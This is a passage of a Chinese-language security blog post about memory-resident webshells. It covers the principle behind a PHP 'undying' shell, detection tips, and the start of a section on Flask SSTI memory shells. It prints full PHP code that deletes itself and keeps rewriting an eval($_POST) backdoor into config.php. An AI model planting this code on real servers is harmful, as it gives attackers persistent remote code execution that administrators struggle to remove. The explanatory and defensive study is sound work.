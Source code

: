 
# [](#webshell-%E5%86%85%E5%AD%98%E9%A9%AC%E5%88%86%E6%9E%90)Webshell 内存马分析

> 内存 webshell 相比于常规 webshell 更容易躲避传统安全监测设备的检测，通常被用来做持久化，规避检测，持续驻留目标服务器。无文件攻击、内存 Webshell、进程注入等基于内存的攻击手段也受到了大多数攻击者青睐。

## [](#1-php-%E5%86%85%E5%AD%98%E9%A9%AC)1 PHP 内存马

### [](#11-%E5%8E%9F%E7%90%86)1.1 原理

php 内存马也就是 php 不死马是将不死马启动后删除本身，在内存中执行死循环，使管理员无法删除木马文件。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```php<br><?php<br>  set_time_limit(0);<br>  ignore_user_abort(1);<br>  unlink(__FILE__);<br>  while (1) {<br>  	$content = '<?php @eval($_POST["zzz"]) ?>';<br>  	file_put_contents("config.php", $content);<br>  	usleep(10000);<br>  }<br>?><br>``` |

-   `ignore_user_abort`：函数设置与客户机断开是否会终止脚本的执行，如果设置为 true，则忽略与用户的断开。
-   `set_time_limit`：设置允许脚本运行的时间，单位为秒。如果设置为 0（零），没有时间方面的限制。

### [](#12-%E6%A3%80%E6%B5%8B)1.2 检测

-   检查所有 php 进程处理请求的持续时间
-   检测执行文件是否在文件系统真实存在

## [](#2-python-%E5%86%85%E5%AD%98%E9%A9%AC)2 Python 内存马

### [](#21-%E5%8E%9F%E7%90%86)2.1 原理

Python 内存马利用 flask 框架中 SSTI 注入来实现，flask 框架中在 web 应用模板渲染的过程中用到 `render_template_string()` 进行渲染，但未对用户传输的代码进行过滤导致用户可以通过注入恶意代码来实现 python 内存马的注入。

在 icehexman [Github](https://github.com/iceyhexman/flask_memory_shell) 中对 flask 框架下的内存马进行了研究。

#### [](#211-flask-route)2.1.1 flask route

类比 tomcat 注册路由的机制，如 filter，如果想实现 python 内存马，也应该研究下 flask 是否能动态注册路由。

flask 常规注册的方式为使用装饰器 `@app.route()` 。而实际工作的函数为装饰器里调用的方法 `self.add_url_rule()` 。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109221235167.png-water_print](assets/1699410171-60cb1b2a7997c11e1dfdac80a67e368e.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109221235167.png-water_print")
